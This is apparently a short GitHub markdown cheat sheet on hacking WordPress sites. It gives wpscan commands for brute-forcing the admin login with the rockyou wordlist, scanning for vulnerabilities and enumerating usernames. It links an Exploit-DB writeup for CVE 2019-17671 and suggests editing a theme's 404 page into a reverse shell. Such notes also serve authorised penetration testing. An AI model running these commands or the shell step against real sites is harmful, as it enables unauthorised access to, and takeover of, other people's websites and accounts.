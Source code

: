 ## Hacking wordpress sites

## Bruteforce login
wpscan --url http://IP/blog/wp-login.php --passwords rockyou.txt --usernames admin --max-threads 60 

## Multiple vulnerability scan types
wpscan --url IP -e 

## Enumerate usernames
wpscan --url https://target.tld/ --enumerate u

# CVE 2019-17671
[Exploit-DB writeup](https://www.exploit-db.com/exploits/47690)

# Reverse shell
Edit the wordpress theme's 404 page and set it to become a reverse shell.
